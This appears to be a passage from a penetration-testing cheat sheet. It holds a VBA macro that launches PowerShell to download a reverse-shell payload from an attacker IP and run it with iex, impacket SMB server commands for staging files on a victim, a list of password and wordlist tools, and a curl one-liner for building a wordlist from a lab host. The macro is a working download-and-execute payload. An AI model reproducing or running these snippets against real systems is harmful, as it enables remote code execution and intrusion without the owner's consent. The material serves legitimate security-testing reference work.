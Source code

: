 - [Basic Win CMD for Pentesters - HackTricks](https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters#download)

##### VBA Macro

```cmd
Dim Str As String
Str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://192.168.119.137:8000/reverse-shell.txt'); iex 'powershell -E $code'"""
CreateObject("Wscript.Shell").Run Str
```

- [Basic PowerShell for Pentesters - HackTricks](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)

##### SMB file share

```bash
# Kali
impacket-smbserver <user> .
impacket-smbserver -smb2support <user> .
```

```cmd
:: Victim
:: Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
net use * \\<ip>\<user>
```

#### Wordlist

- [SecLists](https://github.com/danielmiessler/SecLists) - List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more.
- [Assetnote Wordlists](https://wordlists.assetnote.io/) - This website provides you with wordlists that are up to date and effective against the most popular technologies on the internet.
- [crunch](https://sourceforge.net/projects/crunch-wordlist/) - Crunch is a wordlist generator where you can specify a standard character set or a character set you specify. crunch can generate all possible combinations and permutations.
- [RSMangler](https://github.com/digininja/RSMangler) - RSMangler will take a wordlist and perform various manipulations on it similar to those done by John the Ripper with a few extras.
- [wordlistctl](https://github.com/BlackArch/wordlistctl) - Fetch, install and search wordlist archives from websites and torrent peers
- [mentalist](https://github.com/sc0tfree/mentalist) - Mentalist is a graphical tool for custom wordlist generation. It utilizes common human paradigms for constructing passwords and can output the full wordlist as well as rules compatible with Hashcat and John the Ripper
- [english-words](https://github.com/dwyl/english-words) - A text file containing 479k English words for all your dictionary/word-based projects e.g: auto-completion / autosuggestion
- [username-anarchy](https://github.com/urbanadventurer/username-anarchy) - Username tools for penetration testing
- [jwt-secrets](https://github.com/wallarm/jwt-secrets)

custom wordlist from HTML

```bash
curl -s http://runner.htb/ | html2text | tr ' ' '\n' | tr -d '.,:*!' | sort -u > list.txt
```
